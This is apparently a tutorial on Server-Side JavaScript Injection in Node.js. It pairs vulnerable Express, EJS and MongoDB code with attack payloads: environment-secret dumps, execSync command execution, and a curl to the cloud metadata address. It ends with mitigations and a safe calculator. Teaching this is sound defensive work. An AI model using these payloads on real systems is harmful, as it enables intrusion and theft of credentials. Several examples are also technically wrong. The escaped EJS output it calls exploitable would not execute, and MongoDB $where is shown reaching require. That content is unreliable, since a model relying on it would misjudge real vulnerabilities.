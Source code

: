 # Server-Side JavaScript Injection (SSJI) – Detailed Notes

## 🔹 1. What is SSJI?

**Server-Side JavaScript Injection (SSJI)** occurs when a web application takes **untrusted user input** and executes it as **JavaScript code on the server** (usually in a Node.js environment).

Because of

1. inadequate input validation
1. Direct execution of code. Provided by the user
1. using dangerous functions like “new function”
1. Insecure deserialzation

This is similar to **SQL Injection** but instead of SQL, the attacker injects **JavaScript**.

⚠️ Why dangerous?

- Full **Remote Code Execution (RCE)**
- **Sensitive data exposure** (DB passwords, AWS keys)
- **Pivot attacks** (SSRF to internal systems)
- **Denial of Service**

---

## 🔹 2. Common Causes of SSJI

- Use of `eval()`, `Function()`, or `setTimeout()` on untrusted input.
- Unsafe template engines (`EJS`, `Handlebars`, `Pug`) with unescaped user input.
- NoSQL injections in MongoDB using `$where` or `mapReduce`.
- Developers trying to "parse expressions" without sanitization.

---

## 🔹 3. Types of SSJI

### **(a) Eval-based SSJI**

The most classic case: user input directly evaluated with `eval`.

#### Vulnerable Code

```js
app.get("/calc", (req, res) => {
  const expr = req.query.expr;
  const result = eval(expr); // ❌ Dangerous
  res.send("Result: " + result);
});
```

#### Attacks

1. Normal use:

   ```
   /calc?expr=2+2 → Result: 4
   ```

2. Leak OS info:

   ```
   /calc?expr=process.platform → Result: linux
   ```

3. Dump env variables:

   ```
   /calc?expr=JSON.stringify(process.env)
   → {"DB_PASS":"secret","AWS_KEY":"AKIA..."}
   ```

4. Remote Code Execution (RCE):
   ```
   /calc?expr=require('child_process').execSync('ls').toString()
   → lists files on server
   ```

---

### **(b) Template Injection → SSJI**

Some template engines allow raw JS execution if user input is not escaped.

#### Vulnerable Code

```js
app.get("/profile", (req, res) => {
  res.render("profile.ejs", { name: req.query.name });
});
```

#### Template (profile.ejs)

```ejs
<h1>Welcome <%= name %></h1>
```

#### Exploit

```
/profile?name=<%= process.env.DB_PASS %>
→ Displays DB password
```

Or:

```
/profile?name=<%= require('child_process').execSync('id').toString() %>
→ Executes system command
```

---

### **(c) NoSQL Injection (MongoDB with JS)**

MongoDB allows JavaScript in `$where`.

#### Vulnerable Code

```js
db.users.findOne({ $where: "this.username == '" + req.query.username + "'" });
```

#### Exploit

```
/user?username=' || process.exit() || '
→ crashes the server
```

Or:

```
/user?username='; return require("child_process").execSync("ls").toString(); //
→ executes system command
```

---

## 🔹 4. Step-by-Step Attack Simulation (Eval Example)

1. Attacker tests app:

   ```
   /calc?expr=2+3 → Result: 5
   ```

2. Enumerates system:

   ```
   /calc?expr=process.version → v18.15.0
   ```

3. Dumps secrets:

   ```
   /calc?expr=JSON.stringify(process.env)
   ```

4. Achieves RCE:

   ```
   /calc?expr=require('child_process').execSync('ls').toString()
   ```

5. Performs SSRF to AWS metadata:
   ```
   /calc?expr=require('child_process').execSync('curl http://169.254.169.254/latest/meta-data/').toString()
   ```

💀 Server is fully compromised.

---

## 🔹 5. Real-World Impact of SSJI

- **Data exfiltration**: database creds, API keys, tokens.
- **Cloud compromise**: via AWS metadata service.
- **Persistence**: attacker uploads backdoors.
- **Pivoting**: attacker uses server to attack internal services.

---

## 🔹 6. Mitigation Strategies

✅ **Avoid `eval`, `Function`, `setTimeout(userInput)`** with user input.

✅ Use **safe expression evaluators**:

```js
const { Parser } = require("expr-eval");
const parser = new Parser();
parser.evaluate("2+3*4"); // ✅ Only math, no JS execution
```

✅ For template engines:

- Use escaping (`<%= %>` in EJS, not `<%- %>`).
- Don’t pass raw user input directly into templates.

✅ For MongoDB:

- Don’t use `$where`.
- Disable server-side JavaScript (`--noscripting`).

✅ Security hardening:

- Enforce **input validation** (whitelist patterns).
- Use **linters** (`eslint` → `no-eval` rule).
- Run apps with **least privilege IAM roles**.

---

## 🔹 7. Safe Version of Calculator App

```js
const express = require("express");
const { Parser } = require("expr-eval");
const app = express();
const parser = new Parser();

app.get("/calc", (req, res) => {
  try {
    const expr = req.query.expr;
    const result = parser.evaluate(expr); // ✅ safe math only
    res.send("Result: " + result);
  } catch {
    res.status(400).send("Invalid input");
  }
});

app.listen(3000, () => console.log("Safe calc on http://localhost:3000"));
```

---

# ⚡ Key Takeaway

**SSJI = Server-Side JavaScript Injection.**

- Caused by **unsafe execution of user input**.
- Leads to **RCE, data leaks, SSRF, and full compromise**.
- Prevent by **never executing raw input**, using **safe parsers**, and enforcing **input validation**.
